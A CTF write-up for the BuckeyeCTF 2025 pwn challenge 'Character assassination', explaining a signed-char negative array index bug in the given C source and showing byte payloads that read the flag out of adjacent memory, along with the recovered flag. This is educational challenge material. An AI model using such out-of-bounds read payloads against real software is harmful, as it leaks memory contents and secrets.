# :skull: BuckeyeCTF 2025 - Pwn Write-up. This event start on 01:00 AM (GMT + 8)…

---

## Character assassination

>


tHe bEsT WaY To wIn aN ArGuMeNt iS To rEpEaT EvErYtHiNg tHe oThEr pErSoN SaYs lIkE ThIs


```
ncat --ssl character-assassination.challs.pwnoh.io 1337
```


This challenge gave us this source code


```
#include <stdio.h>



char flag[64] = "bctf{fake_flag}";
char upper[] = {
'?', '?', '?', '?', '?', '?', '?', '?', '?', '\t', '\n', '\x0b', '\x0c',
'\r', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?',
'?', '?', '?', '?', '?', '?', ' ', '!', '"', '#', '$', '%', '&',
'\'', '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@',
'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
'[', '\\', ']', '^', '_', '`', 'A', 'B', 'C', 'D', 'E', 'F', 'G',
'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T',
'U', 'V', 'W', 'X', 'Y', 'Z', '{', '|', '}', '~',
};
char lower[] = {
'?', '?', '?', '?', '?', '?', '?', '?', '?', '\t', '\n', '\x0b', '\x0c',
'\r', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?',
'?', '?', '?', '?', '?', '?', ' ', '!', '"', '#', '$', '%', '&',
'\'', '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@',
'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm',
'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
'[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g',
'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't',
'u', 'v', 'w', 'x', 'y', 'z', '{', '|', '}', '~',
};



int main() {
setvbuf(stdin, 0, 2, 0);
setvbuf(stdout, 0, 2, 0);



FILE *f = fopen("flag.txt", "r");
if (f) {
fgets(flag, sizeof(flag), f);
fclose(f);
}



char input[256];



while (1) {
printf("> ");
if (!fgets(input, sizeof(input), stdin)) {
break;
}
for (int i = 0; i < sizeof(input) && input[i]; i++) {
char c = input[i];
if (i % 2) {
printf("%c", upper[c]);
} else {
printf("%c", lower[c]);
}
}
printf("\n");
}
}
```


As we can see, the challenge looks like safe from BoF, its also all protected with PIE, Canary etc. So, the bug is in this area


```
char c = input[i];
if (i % 2) {
printf("%c", upper[c]);
} else {
printf("%c", lower[c]);
}
```


Keep in mind, char on c only takes signed 8-bit integer (-128 to 127). So if we put char that ≥ 128, it wraps to -1 (Negative numbers). This can lead us to a Negative array indexing -> out of bounds read. Take a look at the defined code


```
char flag[64] = "bctf{fake_flag}";
char upper[] = {
'?', '?', '?', '?', '?', '?', '?', '?', '?', '\t', '\n', '\x0b', '\x0c',
'\r', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?', '?',
'?', '?', '?', '?', '?', '?', ' ', '!', '"', '#', '$', '%', '&',
'\'', '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@',
'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
'[', '\\', ']', '^', '_', '`', 'A', 'B', 'C', 'D', 'E', 'F', 'G',
'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T',
'U', 'V', 'W', 'X', 'Y', 'Z', '{', '|', '}', '~',
};
```


The flag will be appear if we send a negative number on the array upper. So this is already clear, now let's find out what's best offset to read flag (64).


```
127 + 64 = 191 + 1 (\x00) = 192 (0xc0)
```


Now lets test the payload by confirm the format flag first. Keep in mind also, the flag will be appear on (i % 2), so put the target after any character (in this case I'm using “A”)


```
payload = b"A\xc0A\xc1A\xc2A\xc3A\xc4
```


```
abacatafa{
```


Okay, it's confirmed work, now, lets craft it until the end of flag character “}”


```
payload = b"A\xc0A\xc1A\xc2A\xc3A\xc4A\xc5A\xc6A\xc7A\xc8A\xc9A\xcaA\xcbA\xccA\xcdA\xceA\xcfA\xd0A\xd1A\xd2A\xd3A\xd4A\xd5A\xd6A\xd7A\xd8A\xd9A\xdaA\xdbA\xdcA\xddA\xdeA\xdf"
```


```
abacatafa{awaOawa_aYaoaUa_asaOalaVaeaDa_aiaTa_a6a6a5afafa8a3ada}
```


Now, just replace the “a” > “”


```
>>> "abacatafa{awaOawa_aYaoaUa_asaOalaVaeaDa_aiaTa_a6a6a5afafa8a3ada}".replace("a", "")
'bctf{wOw_YoU_sOlVeD_iT_665ff83d}'
```


Flag: bctf{wOw_YoU_sOlVeD_iT_665ff83d}


---
